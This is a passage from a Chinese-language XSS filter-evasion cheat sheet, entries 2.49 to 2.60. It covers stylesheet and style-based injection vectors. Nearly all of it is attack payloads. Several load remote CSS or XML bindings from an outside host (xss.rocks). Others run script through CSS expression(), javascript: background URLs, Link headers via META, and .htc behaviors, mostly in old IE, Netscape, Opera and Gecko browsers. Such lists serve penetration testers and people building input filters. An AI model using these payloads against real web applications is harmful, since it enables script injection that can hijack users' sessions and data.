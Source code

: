 2.49.    远程样式表
(利用像远程样式表一样简单的形式，你可以将XSS攻击代码包含在可使用内置表达式进行重定义的样式参数里。)这只在IE和使用IE渲染模式Netscape8.1+。注意这里没有任何元素在页面中表明这页面包含了JavaScript。提示：这些远程样式表都使用了body标签,所以必须在页面中有除了攻击向量以外的内容存在时才会生效, 也就是如果是空白页的话你必须在页面添加一个字母来让攻击代码生效:

<LINK REL="stylesheet" HREF="http://xss.rocks/xss.css">

2.50.    远程样式表2
这个和上面一样有效，不过使用了<STYLE>标签替代<LINK>标签. 这个细微的变化曾经用来攻击谷歌桌面。另一方面，如果在攻击向量后有HTML标签闭合攻击向量，你可以移除末尾的</STYLE>标签。在进行跨站脚本攻击时，如不能同时使用等号或斜杠，这是非常有用的，这种情况在现实世界里不止一次发生了:

<STYLE>@import'http://xss.rocks/xss.css';</STYLE>

2.51.    远程样式表3
这种方式仅在Opera 8.0(9.x不可以)中有效，但方法比较有创意. 根据RFC2616，设置一个Link头部不是HTTP1.1规范的一部分,但一些浏览器仍然允许这样做 (例如Firefox和  Opera). 这里的技巧是设置一个头部（和普通头部并没有什么区别，只是设置Link: <http://xss.rocks/xss.css>; REL=stylesheet）并且在远程样式表中包含使用了JavaScript的跨站脚本攻击向量，这一点是FireFox不支持的:

<META HTTP-EQUIV="Link" Content="<http://xss.rocks/xss.css>; REL=stylesheet">

2.52.    远程样式表4
这仅能在Gecko渲染引擎下有效并且需要在父页面绑定一个XML文件。具有讽刺意味的是 Netscape认为Gecko更安全 ，所以对绝大多数网站来说会受到漏洞影响:

<STYLE>BODY{-moz-binding:url("http://xss.rocks/xssmoz.xml#xss")}</STYLE>

2.53.    含有分隔JavaScript的STYLE标签
这个XSS会在IE中造成无限循环:

<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>

2.54.    STYLE属性中使用注释分隔表达式
由Roman Ivanov创建

<IMG STYLE="xss:expr/*XSS*/ession(alert('XSS'))">

2.55.    含表达式的IMG STYLE
这是一个将上面XSS攻击向量混合的方法，但确实展示了STYLE标签可以用相当复杂的方式分隔，和上面一样，也会让IE进入死循环:

exp/*<A STYLE='no\xss:noxss("*//*");

xss:ex/*XSS*//*/*/pression(alert("XSS"))'>

2.56.    STYLE标签（仅旧版本Netscape可用）
<STYLE TYPE="text/javascript">alert('XSS');</STYLE>

2.57.    使用背景图像的STYLE标签
<STYLE>.XSS{background-image:url("javascript:alert('XSS')");}</STYLE><A CLASS=XSS></A>

2.58.    使用背景的STYLE标签
<STYLE type="text/css">BODY{background:url("javascript:alert('XSS')")}</STYLE>

2.59.    含STYLE属性的HTML任意标签
IE6.0和IE渲染引擎模式下的Netscape 8.1+并不关心你建立的HTML标签是否存在，只要是由尖括号和字母开始的即可:

<XSS STYLE="behavior: url(xss.htc);">

2.60.    本地htc文件
这和上面两个跨站脚本攻击向量有些不同，因为它使用了一个必须和XSS攻击向量在相同服务器上的.htc文件。这个示例文件通过下载JavaScript并将其作为style属性的一部分运行来进行攻击：

<XSS STYLE="behavior: url(xss.htc);">
